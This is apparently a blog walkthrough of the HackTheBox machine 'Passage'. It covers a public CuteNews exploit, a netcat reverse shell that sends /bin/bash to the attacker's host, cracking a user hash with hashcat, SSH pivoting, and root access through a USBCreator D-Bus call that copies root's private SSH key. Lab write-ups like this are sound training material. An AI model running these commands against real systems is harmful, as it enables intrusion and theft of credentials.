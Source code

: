 ```yaml
---
layout: single
title:  Passage HackTheBox Walkthrough
date: 2022-7-25
classes: wide
header:
  teaser: 
tags:
  - HackTheBox
  - ctf
  - Linux
--- 
```


This box was made by my buddy @ChefByzen on Twitter, I know him from our Uni CTF team. Very cool box!

Let's get into it.
I started off by enumerating like usual with NMAP
```
# Nmap 7.80 scan initiated Sat Sep 26 16:38:13 2020 as: nmap -sCV -p- -vvv -A -T4 -oA passage 10.10.10.206
Nmap scan report for 10.10.10.206
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVnCUEEK8NK4naCBGc9im6v6c67d5w/z/i72QIXW9JPJ6bv/rdc45FOdiOSovmWW6onhKbdUje+8NKX1LvHIiotFhc66Jih+AW8aeK6pIsywDxtoUwBcKcaPkVFIiFUZ3UWOsWMi+qYTFGg2DEi3OHHWSMSPzVTh+YIsCzkRCHwcecTBNipHK645LwdaBLESJBUieIwuIh8icoESGaNcirD/DkJjjQ3xKSc4nbMnD7D6C1tIgF9TGZadvQNqMgSmJJRFk/hVeA/PReo4Z+WrWTvPuFiTFr8RW+yY/nHWrG6LfldCUwpz0jj/kDFGUDYHLBEN7nsFZx4boP8+p52D8F
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdB2wKcMmurynbHuHifOk3OGwNcZ1/7kTJM67u+Cm/6np9tRhyFrjnhcsmydEtLwGiiY5+tUjr2qeTLsrgvzsY=
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRIhMr/zUartoStYphvYD6kVzr7TDo+gIQfS2WwhSBd
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Not much is open so I decided to check out the site
Immediately I see that they have fail2ban and another user kim switft

```
**Implemented Fail2Ban**
18 Jun 2020 By admin 0 Comments
Due to unusally large amounts of traffic, View & Comment
Phasellus tristique urna
12 Jun 2020 By Kim Swift 0 Comments
Sed felis pharetra, nec sodales diam sagittis. View & Comment 
```

So gobuster is out of the question to enumerate directories.
I set out to investigate the site manually by playing around and I saw that it is powered by cutenews
After searching around I came across two exploits for it. 
One was metasploit and the other someone had written a python script for after the box was released.
The author of th ebox says that the intended route is with metasploit.

In either case you get a shell as www-data, we can't get the flag just yet. We have to escalate privileges to get the user flag. 

![](/assets/images/PassageHTB/cutenews.png)

First order of business was making this a reverse shell cause I can't stand that default shell.
I ran nc -lnvp 9827 on my host kali machine and nc 10.10.**.** 9827 -e /bin/bash on the passage box

--------------------------

PRO TIP: RUN THESE FOR AN ENJOYABLE EXPERIENCE IN YOUR SHELL
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
then
```
[CTRL-Z]
stty raw -echo;fg
[ENTER][ENTER]

source /etc/skel/.bashrc 
export TERM=screen-256color
```
END OF PRO TIP 

--------------------

At this point I got lost, that was until until I dig deeper and found /var/www/html/CuteNews/cdata.
In this directory I fell into a rabbithole of writing a python script to base64 decode the hashes inside of these many files
![](/assets/images/PassageHTB/base64.png)

For example, inside of one of those php files 
![](/assets/images/PassageHTB/1stphp.png)
has the first line as garbage and the second line being a base64 string. 
This script turned out to be for naught as the actual way to escalate privileges can be found inside the **Lines** file. 
![](/assets/images/PassageHTB/lines.png)
if you go through and decode them you come across one that says paul@passage.htb which is one of the two users I found when I was enumerating the home directory
![](/assets/images/PassageHTB/homedir.png)

Then we throw that hash we found into a hash analyzer and realize it's sha-256, well we could give it a shot cracking that hash to get his password.
![](/assets/images/PassageHTB/analyzer.png)

We could easily enough crack it with hashcat but this online service did it in less than a second.
![[hashcrack.png]]
If you want to take a more manual approach with hashcat yourself you could do it with 
```
hashcat -m 1400 paul.txt /usr/share/wordlists/rockyou.txt
```
at any rate you get atlanta1 as the password for paul
I enumerated as paul for a while until I eventually went into the .ssh dir and cated it all out,
I saw that nadav was in the authorized keys so while logged into paul I SSHd into nadav. 
![](/assets/images/PassageHTB/sshNadav.png)

Now out of all the privilege escalation i did for this box going from nadav to root was by far the hardest.
I always start out running a script that gives me a quick overview of the entire box very easily in case there's something i can spot out of place. In this case it didn't help all too much and I was left to exploring on my own

fail2ban, zeitgeist, and CUPS were the first processes that I investigated but I didn't come to any solution. I finally stumbled upon

```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
While looking at all the running processes. 
I don't remember having seen this before so I googled it and came across this article 
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
They describe how to exploit this to copy files to other 
```
gdbus call --system --dest com.ubuntu.USBCREATOR --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true
```
This copies the root rsa key to /tmp/pwn on my box. 
then we 
```
chmod 600 root_id_rsa 
ssh -i root_id_rsa root@10.10.10.206
```
And you can access root.txt
Thanks for reading!

